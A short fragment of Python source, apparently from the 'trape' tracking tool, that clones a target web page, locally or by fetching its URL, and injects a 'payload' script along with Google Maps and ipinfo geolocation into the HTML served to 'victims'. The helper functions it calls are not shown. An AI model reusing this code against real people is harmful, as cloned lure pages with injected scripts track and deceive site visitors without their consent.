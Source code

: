 ```python
        opener = urllib2.build_opener()
        headers = victim_headers(request.user_agent)
        opener.addheaders = headers
        if (trape.type_lure == 'local'):
            html = assignScripts(victim_inject_code(render_template("/" + trape.url_to_clone), 'payload', '/', trape.gmaps, trape.ipinfo))
        else:
            html = assignScripts(victim_inject_code(opener.open(trape.url_to_clone).read(), 'payload', trape.url_to_clone, trape.gmaps, trape.ipinfo))


## ... source file continues with no further Flask examples...

```

